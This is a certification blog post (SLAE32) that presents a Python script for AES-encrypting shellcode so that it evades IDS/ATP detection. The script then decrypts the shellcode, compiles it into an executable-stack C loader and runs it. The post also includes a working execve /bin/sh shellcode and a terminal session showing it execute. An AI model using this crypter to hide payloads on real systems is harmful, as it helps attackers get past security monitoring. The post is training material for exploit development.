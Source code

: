 ```yaml
---
layout: single
title: AES Block Cipher script for Shellcodes
date: 2019-10-18
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
I think the best way to obfuscate shellcodes to avoid IDS/ATP protection is the polyphormism method, but also encrypting the shellcode could be a valid alternative to bypass those control systems. There are a lot of cipher algorithms outside to choose for this purpose but we need considering some aspects in this case. First we need a strong algorithm to prevent bruteforce on key or frequency analysys attack on ciphered text, second we need our implementation easy to write, easy to use and fast on encrypting/decrypting operations.<br>
First of all we need to choose if we want to implement a stream or block cipher, let's look at some features:

| 1. |	Block Cipher Converts the plain text into cipher text by taking plain text’s block at a time. |	Stream Cipher Converts the plaint text into cipher text by taking 1 byte of plain text at a time.
| 2. |	The complexity of block cipher is simple. |	Stream cipher is more complex.
| 3. |	Block cipher uses confusion as well as diffusion. |	Stream cipher uses only confusion.

There are many other features to list but this isn't the scope of this post. If you want to deep learn informations on block and stream ciphers I suggest to read this [book](https://www.crcpress.com/Cryptography-Theory-and-Practice/Stinson-Paterson/p/book/9781138197015).<br>
We choosed a block cipher algorithm. Next decisiom to make is what block cipher algorithm? According to [Wikipedia](https://en.wikipedia.org/wiki/Block_cipher) there are a lot of block cipher but one in particular is adopted by the NIST, the Advanced Encryption Standard (AES), wich could encrypt plain text block with a maximum 256 byte key size.<br>

## Implementation
Sometimes ago i wrote a python script for my [Github Redteam toolbox](https://github.com/bolonobolo/toolbox/blob/master/criptography/block_cipher.py) that works with block ciphers (AES, DES and 3DES).
So we've only to make some small changes on this script to make it operational on encrypting/decrypting and executing shellcode.
The original script works with OFB variant of the AES algorithm that means that i've to use alway a different Initiator Vector (IV).
In this case we work with CBC mode so the IV could be a fixed 16 bytes string.
However the main change to make is to add a function that execute our shellcode once it is decrypted.
Taking note that this script works only with python2, here's the code.<br>
```python
#!/usr/bin/python

# AES Block Cipher script for shellcodes
# Author: @bolonobolo
# Date: 2019/10/18

from Crypto.Cipher import AES
from base64 import b64encode,b64decode
import random
import string
import os

def getMode():
	while True:
		print ("Welcome to AES Block Cipher script for shellcodes")
		print("Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?")
		mode = raw_input().lower()
		if mode in "encrypt e decrypt d execute x".split():
			return mode
		else:
			print('Enter either "encrypt" or "e", "decrypt" or "d", "execute" or "x".')

def getMessage():
	print("Enter the text")
	return raw_input()

def getKey():
	print("Enter the key")
	return raw_input()

def getIV():
	# 16 byte iv
	iv = "0123456789abcdef"
	return iv


def genkey(length):
	key = []
	# in ascii one letter = 8 bit = 1 byte 
	# AES needs 128, 192, or 256 bits, i choosed 256 256/8 = 32
	for _ in range (0,length):
		key.append(random.SystemRandom().choice(
				string.ascii_uppercase + string.ascii_lowercase + string.digits
				)) 
	return ''.join(key)

def aes(cipher, key, iv):
	cipher = AES.new(key, AES.MODE_CBC, iv)
	return cipher

def padding(size, text):
	while len(text) % size != 0:
			text += " "
	return text	

def cipherAlgo(key, text, size, iv):
	cipher = aes("aes", key, iv)	
	text = padding(size, text)
	text = cipher.encrypt(text)
	msg = b64encode(text)
	return msg

def decipherAlgo(key, text, iv):
	cipher = aes("aes", key, iv)
	text = b64decode(text)	
	msg = cipher.decrypt(text)
	return msg

def executeAlgo(code):
	code = code.replace(" ", "") # eventualy clean code from blank spaces
	file = open("shellcode.c", "w")
	file.write('''
		#include<stdio.h>
		#include<string.h>

		unsigned char code[] = \"''' + code + '''";

		void main() {

			printf(\"Shellcode Length:  %d\\n\", strlen(code));

			int (*ret)() = (int(*)())code;

			ret();

		}'''
	)
	file.close()
	os.system("gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shellcode 2>/dev/null")
	os.system("./shellcode")

def main():
	mode = getMode()
	text = getMessage()
	iv = getIV()
	if mode[0] == "e":
		key = genkey(32) # 256 bits of key
		size = 16 # block size has to be 16 bytes
		msg = cipherAlgo(key, text, size, iv)
		print("Encrypted shellcode: %s" % (msg))
		print("The key is: %s" % (key))
		# print("The IV is: %s" % (iv))
	elif mode[0] == "d":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
	elif mode[0] == "x":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
		executeAlgo(msg)	

if __name__ == '__main__':
	main()
```    

## Simple usage
Theentire workflow is very simple, first we need to extract the hexadecimal values of our shellcode with ```objdump``` command, next we launch the script choosing the ```encrypt``` option, paste our hex string, press enter and obtain the encrypted string and the key.
Now we can relauch the script but this time we'll choose the ```execute``` option that decrypt the encrypted shellcode, write a C executer, compile it and execute it.<br>
```bash
root@slae32-lab:# objdump -d ../6_polimorphism/execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
e
Enter the text
\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80
Encrypted shellcode: 2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
The key is: PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
x
Enter the text
2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
Enter the key
PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
Decrypted shellcode: \x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80            
Shellcode Length:  25
# exit
root@slae32-lab:# ls
aes_executor.py  shellcode  shellcode.c
```
For our test we choose the last 25 bytes execve /bin/sh shellcode.<br>
![](/assets/images/SLAE32/assignment_7/crypter_0.gif)<br>
Nice!<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
Student ID: SLAE-1476
